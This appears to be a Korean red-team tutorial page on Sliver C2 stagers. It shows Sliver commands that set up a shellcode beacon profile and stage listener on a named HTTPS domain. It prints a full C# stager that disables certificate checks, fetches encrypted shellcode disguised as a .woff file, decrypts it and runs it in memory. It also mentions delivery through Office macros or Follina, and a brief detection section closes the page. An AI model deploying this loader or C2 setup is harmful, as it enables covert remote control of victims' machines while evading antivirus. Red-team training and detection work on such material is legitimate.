

# 스테이저 (Stager) 사용

슬리버 C2의 에이전트는 PE 바이너리로 생성할 경우 약 10MB 정도의 큰 크기를 갖는다. 또한 슬리버를 통해 생성한 바이너리의 경우 이미 AV/EDR 솔루션들에게 시그니처를 당했기 때문에 정적 탐지에 걸릴 확률이 높다. 마지막으로, 타겟이 `.exe` PE 바이너리 파일을 다운 받아 실행시키는 초기 침투 방법은 탐지 확률이 높아 2000년대 이후로 기피되고 있다. &#x20;

이런 문제점들을 해결하기 위해 슬리버 C2에서는 스테이저(Stager)를 사용한다. 스테이저란 먼저 타겟 호스트에서 실행된 뒤 메인 비컨 쉘코드를 다운받아 메모리상에서 실행하는 쉘코드다. 스테이저와 관련된 요소들은 다음과 같다.&#x20;

* 스테이저(stager): 슬리버 C2나 외부에서 메인 비컨 쉘코드를 다운받아 메모리상에서 실행시켜주는 쉘코드&#x20;
* 스테이저-리스너(stager-listener): 스테이저가 방문해 메인 비컨 쉘코드를 다운 받을 리스너&#x20;
* 프로필(profile): 메인 비컨 쉘코드 프로파일&#x20;

이외에도 슬리버 C2 프레임워크가 만들어주는 스테이저를 사용하지 않고 스스로 직접 커스텀 스테이저를 만들수도 있다. 이 경우 다음과 같은 방법으로 메인 비컨이 실행된다.&#x20;

1. 커스텀 스테이저가 C2 서버(실제론 리다이렉터)의 스테이저-리스너에 방문해 메인 비컨 쉘코드를 바이트 배열 포멧으로 받아온다&#x20;
2. 메인 비컨 쉘코드를 가지고 있던 키와 IV로 복호화한다&#x20;
3. 메인 비컨 쉘코드를 인젝션 하거나 해당 프로세스에 로드해 실행한다&#x20;
4. 메인 비컨은 실행되어 실제 리스너에 방문해 비컨 활동을 시작한다

여기서 조금 헷갈리는 것은 실제 리스너와 스테이저-리스너가 같은 포트를 공유할 수 있다는 점이다. 확실히 알아보기 위해 실습을 해보자.&#x20;

### 실습&#x20;

먼저 메인 비컨의 쉘코드 프로파일을 생성해준다.&#x20;

```
# TODO - 공격 도메인이 아닌 간단한 http 실습 작성 

# 메인 비컨 쉘코드 프로필 생성 
profiles new beacon --http https://info.koreambtihealth.com:443 --format shellcode win-shellcode

# 스테이지 리스너 생성 
stage-listener --url https://info.koreambtihealth.com:443 -c /root/redteam/certbot/fullchain.pem -k /root/redteam/certbot/privkey.pem --profile win-shellcode
```

여기까지 실행하면 다음과 같은 것들이 준비된 것이다&#x20;

1. 메인 비컨 쉘코드를 만들기 위한 프로필 (양식/템플릿) - 메인 비컨은 https를 이용해 `info.koreambtihealth.com` 의 포트 443을 가진 메인 리스너로 콜백한다.&#x20;
2. 스테이저 리스너는 스테이저로부터 쉘코드를 공급하기 위해 만들어진 리스너다. 스테이저가 https를 이용해 `info.koreambtihealth.com` 의 포트 443로 방문하면, 메인 비컨의 쉘코드를 다운받도록 도와준다.&#x20;

### 스테이저&#x20;

스테이저 코드는 Sliver 공식문서 것을 사용한다. 추후 `Defense Evasion` 섹션에서 이 스테이저를 좀 더 고급스럽게 만들 것이지만, 일단은 간단하게 C# + PInvoke를 이용한 VirtualAlloc + Marshal.Copy + CreateThread + WaitForSingleObject 콤보를 사용한다.&#x20;

<details>

<summary>SliverStager.cs1</summary>

```csharp
using System;
using System.IO;
using System.Net;
using System.Runtime.InteropServices;
using System.Security.Cryptography;
using System.Text;

namespace Sliver_stager
{
    class Program
    {
        private static string AESKey = "D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT";
        private static string AESIV = "8y/B?E(G+KbPeShV";
        private static string url = "https://<ip/FQDN>:<port>/test.woff";

        [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
        static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

        [DllImport("kernel32.dll")]
        static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);

        [DllImport("kernel32.dll")]
        static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);

        public static void DownloadAndExecute()
        {
            ServicePointManager.ServerCertificateValidationCallback += (sender, certificate, chain, sslPolicyErrors) => true;
            System.Net.WebClient client = new System.Net.WebClient();
            byte[] shellcode = client.DownloadData(url);
            shellcode = Decrypt(shellcode, AESKey, AESIV);
            IntPtr addr = VirtualAlloc(IntPtr.Zero, (uint)shellcode.Length, 0x3000, 0x40);
            Marshal.Copy(shellcode, 0, addr, shellcode.Length);
            IntPtr hThread = CreateThread(IntPtr.Zero, 0, addr, IntPtr.Zero, 0, IntPtr.Zero);
            WaitForSingleObject(hThread, 0xFFFFFFFF);
            return;
        }

        private static byte[] Decrypt(byte[] ciphertext, string AESKey, string AESIV)
        {
            byte[] key = Encoding.UTF8.GetBytes(AESKey);
            byte[] IV = Encoding.UTF8.GetBytes(AESIV);

            using (Aes aesAlg = Aes.Create())
            {
                aesAlg.Key = key;
                aesAlg.IV = IV;
                aesAlg.Padding = PaddingMode.None;

                ICryptoTransform decryptor = aesAlg.CreateDecryptor(aesAlg.Key, aesAlg.IV);

                using (MemoryStream memoryStream = new MemoryStream(ciphertext))
                {
                    using (CryptoStream cryptoStream = new CryptoStream(memoryStream, decryptor, CryptoStreamMode.Write))
                    {
                        cryptoStream.Write(ciphertext, 0, ciphertext.Length);
                        return memoryStream.ToArray();
                    }
                }
            }
        }

        public static void Main(String[] args)
        {
            DownloadAndExecute();
        }
    }
}
```

</details>

여기서 특이한 점은 바로 `private static string url = "https://<ip/FQDN>:<port>/test.woff";` 이 라인이다. `test.woff` 라는 파일을 만든 적이 없는데 이걸 왜 쓰는거지? 라고 궁금했었는데, `stage-listener` 는 기본적으로 클라이언트가 `*.woff` 라는 파일 확장자를 가진 파일을 요청하면 슬리버 쉘코드를 반환해주기에 사용한다.&#x20;




### 무기화&#x20;

커스텀 스테이저가 C#으로 만들어졌기 때문에 이를 파워쉘에서 불러올수도 있고, 이 파워쉘 코드를 Follina 나 MS Office 매크로 등에서 사용하는 것도 가능하다. 이에 관련해서는 `실행 (Execution)` 파트에서 다룬다.&#x20;


### 대응 방안&#x20;

특정 프로세스가 특정 도메인에 방문할 때 URL 주소 끝에 `.woff` 가 들어가있고, 반환된 `.woff` 파일이 암호화된, 혹은 알아볼 수 없는 raw binary data 일 경우, 그리고 그 크기가 8\~15MB 일 때 슬리버 쉘코드일 확률이 매우 높다.&#x20;

물론 이는 또 Malleable C2를 이용해 우회할 수 있지만, 이것은 다른 페이지에서 설명한다.&#x20;

그 외에는 초기 침투 단계와 실행 단계에서 막아내거나, 프로세스 인젝션 단계에서 막는 방법, 그리고 도메인 신뢰도 등을 이용해 수상한 도메인 접근을 시도하는 프로세스를 막는 방법 등이 존재한다.&#x20;


### 레퍼런스&#x20;


